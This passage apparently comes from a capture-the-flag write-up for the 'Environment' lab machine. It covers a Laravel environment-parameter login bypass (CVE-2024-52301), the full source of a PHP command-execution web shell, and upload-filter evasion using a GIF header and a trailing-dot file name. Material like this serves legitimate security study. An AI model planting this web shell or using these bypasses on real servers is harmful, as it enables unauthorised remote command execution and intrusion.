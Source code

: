 
Okay, now we have something. We do have login page and we have /mailing also.

I tried accessing the /mailing directory and look what i found.

![image.png](/assets/images/Environment/image%20(2).png)

We have laravel here with version defined as 11.30.0 

## **Exploitation**

First thing we do is trying to find a cve for this laravel version. What got my intention was this github page that speaks about a CVE-2024-52301.

https://github.com/Nyamort/CVE-2024-52301

So, What the poc is saying is to add after the /login a parameter “?—env=preprod” that will bypass the login page and forward us to http://environment.htb/management/dashboard

![image.png](/assets/images/Environment/image%20(3).png)

After that forward the request and you will be automatically redirected to this page here as a user called “Hish”.

![image.png](/assets/images/Environment/image%20(4).png)

I went to the profile section and look what i found

![image.png](/assets/images/Environment/image%20(5).png)

It’s an upload page , I was trying many things but the trick here was to bypass the php file so he can succesfully execute a reverse shell on our terminal.

So, using the https://www.revshells.com/ I retrieved the reverse shell of the PHP

```bash
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

But it wasn’t enough I created a file called rev.gif.php and added in the first line the header of the GIF which I found it in the internet “GIF87a” and even with this things i did , I wasn’t able to execute the reverse shell until i found out that adding a “.” after the name of my file will bypass the file error upload. So, I renamed it to “rev.gif.shell.”  and upload it.
